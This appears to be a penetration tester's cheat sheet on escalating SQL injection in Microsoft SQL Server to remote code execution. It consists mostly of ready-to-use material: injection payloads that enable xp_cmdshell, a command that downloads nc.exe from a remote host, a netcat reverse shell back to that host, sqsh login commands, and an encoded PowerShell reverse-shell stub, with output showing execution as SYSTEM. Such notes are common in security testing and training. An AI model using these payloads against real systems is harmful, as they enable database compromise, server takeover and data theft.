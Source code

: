 # MSSQL

### SQL Injection to RCE

[https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e](https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e)

```
is_srvrolemember('sysadmin')
```

If it is equal to one, you can be execute xp\_cmdshell command.

```
' UNION SELECT pass,id FROM Users; WAITFOR DELAY '0:0:5';--  - multiple queries ok.

' UNION SELECT pass,id FROM Users; EXEC xp_cmdshell "whoami";--   - nope.

' UNION SELECT pass,id FROM Users; EXEC sp_configure "show advanced options", 1;RECONFIGURE;EXEC sp_configure "xp_cmdshell", 1;RECONFIGURE;--

' UNION SELECT pass,id FROM Users; EXEC master..xp_cmdshell "whoami";-- - ok.

' UNION SELECT pass,id FROM Users; EXEC master..xp_cmdshell "powershell Invoke-WebRequest -Uri http://192.168.1.1/nc.exe -OutFile nc.exe";--  -OK

' UNION SELECT pass,id FROM Users; EXEC master..xp_cmdshell "nc.exe -e cmd 192.168.1.1 80";-- -OK
```

### Getting RCE on MSSQL

https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp\_cmdshell

xp\_cmdshell - Can only be executed by 'sa' and any other users with 'sysadmin' privileges

By default, only sysadmin is allowed to use it and in SQL Server 2005 it is disabled by default (it can be enabled again using sp\_configure)

If we have credentials and mssql port is open to external access, we can connect with sqsh.

```
sqsh -S 192.168.1.2 -U {USER} -P {PASS} -D {DATABASENAME(NOT REQUIRED)}
```

```
1> EXEC master..xp_cmdshell 'whoami'
2> go

Msg 15281, Level 16, State 1
Server 'TEST\SQLEXPRESS', Procedure 'master..xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell'
because this component is turned off as part of the security configuration for this
server. A system administrator can enable the use of 'xp_cmdshell' by using
sp_configure. For more information about enabling 'xp_cmdshell', search for
'xp_cmdshell' in SQL Server Books Online.
```

If the output like the above then you need to activate the cmdshell feature with below commands

```
1> EXEC SP_CONFIGURE 'show advanced options',1
2> reconfigure
3> go
Configuration option 'show advanced options' changed from 0 to 1. Run the
RECONFIGURE statement to install.
(return status = 0)

1> EXEC SP_CONFIGURE 'xp_cmdshell',1
2> reconfigure
3> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
```

With the above command we have configured that our SQL Server is able to execute command at the server.

```
1> xp_cmdshell 'whoami'
2> go

        output                                                                      

        ----------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
----------------

        nt authority\system                                                         

        NULL                                                                        

(2 rows affected, return status = 0)
```

To get reverse shell, we can execute powershell command.

https://www.revshells.com/ - Powershell #3 (Base64) - 192.168.1.1 - 80 - powershell

```
1> EXEC master..xp_cmdshell 'powershell -e JABjAG..........'
2> go
```
